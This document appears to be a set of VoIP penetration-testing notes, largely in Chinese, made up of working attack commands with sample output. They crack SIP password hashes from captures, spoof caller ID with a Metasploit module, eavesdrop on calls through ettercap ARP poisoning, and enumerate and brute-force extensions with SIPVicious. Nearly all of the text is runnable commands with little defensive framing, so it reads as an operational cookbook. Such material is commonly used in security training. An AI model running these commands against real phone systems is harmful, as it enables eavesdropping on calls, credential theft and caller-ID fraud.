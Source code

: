 ## http://www.concise-courses.com/learn/how-to-exploit-voip/

### 破解 SIP 密码

	用 wireshark 抓包生成 test.pcap
	sipdump pashash.txt -p test.pcap 从数据包中获取哈希密码
	sipcrack pashash.txt -w passlist.txt 通过字典文件 passlist.txt 破解哈希密码

### 使用 wireshark 监听数据包中的语音

	wireshark - statistics - hierarchy
	（wireshark - 统计 - 等级制度）
	发现多数流量都是 Real-Time Transport Protocol
	wireshark - Telephony - VoIP Calls
	（wireshark - 电话 - VoIP Calls）
	
### SIP Invite Spoof(fake call)

	http://www.youtube.com/watch?v=GkdyQVh36qc
	this module will create a fake SIP invite request making the targeted device ring and display fake caller id information
	The spoofed caller is send MSG(fake caller id)
	Use metasploit and sip phone(SFLphone)
	
	root@kali:~# msfconsole
	msf > search sip
	msf > use auxiliary/voip/sip_invite_spoof
	msf auxiliary(sip_invite_spoof) > show options
	msf auxiliary(sip_invite_spoof) > set DOMAIN 15261@sip.sflphone.org(软电话使用的域)
	msf auxiliary(sip_invite_spoof) > set SRCADDR 37.244.213.229(本机地址)
	msf auxiliary(sip_invite_spoof) > set RHOSTS 37.244.213.229/24
	msf auxiliary(sip_invite_spoof) > run
	
### Eavesdrop on VoIP Conversations
	http://www.youtube.com/watch?v=YGi4rSDofTs
	ettercap -T -M ARP -i <interface> // //
	使用 wireshark 抓包
	
	http://www.ehacking.net/2012/06/voip-sniffing-cracking-phishing.html

	http://www.backtrack-linux.org/wiki/index.php/Pentesting_VOIP

### sipvicious 工具集

	root@kali:~# svmap 172.16.8.181
	| SIP Device        | User Agent           | Fingerprint |
	----------------------------------------------------------
	| 172.16.8.181:5060 | Asterisk PBX 1.8.6.0 | disabled    |

	root@kali:~# svwar -e 18101-18105 172.16.8.181 -m INVITE
	| Extension | Authentication |
	------------------------------
	| 18101     | reqauth        |

	root@kali:~# svcrack -u 18101 172.16.8.181
	| Extension | Password |
	------------------------
	| 18101     | 18101    |

	root@kali:~# svcrack -u 18101 -r 18101-18105 172.16.8.181
	| Extension | Password |
	------------------------
	| 18101     | 18101    |

	root@kali:~# cat pass.txt 
	18101
	18102
	root@kali:~# svcrack -u 18101 -d pass.txt 172.16.8.181
	| Extension | Password |
	------------------------
	| 18101     | 18101    |
